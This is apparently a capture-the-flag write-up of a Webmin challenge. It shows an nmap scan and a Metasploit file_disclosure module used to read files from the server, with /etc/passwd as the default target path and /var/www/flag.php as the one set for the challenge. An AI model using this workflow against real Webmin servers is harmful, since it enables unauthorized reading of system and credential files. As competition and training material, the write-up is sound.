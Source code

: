 Webmin - Exploit 2
========================
## Challenge:
```
Description: This challenge had us connecting to a server where the following 
information was shown. A flag.php file and a webmin folder containing a config file.

Goal: Find the flag for 2000 Points.
```

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

  Name     Current Setting    Required  Description
  ----     ---------------    --------  -----------
  DIR      /unauthenticated   yes       Webmin directory path
  Proxies                     no        Use a proxy chain
  RHOST    54.221.X.X         yes       The target address
  RPATH    /etc/passwd        yes       The file to download
  RPORT    10000              yes       The target port
  VHOST                       no        HTTP server virtual host

msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
```

Boom! We have a flag!

**NCL-OSSL-1337**
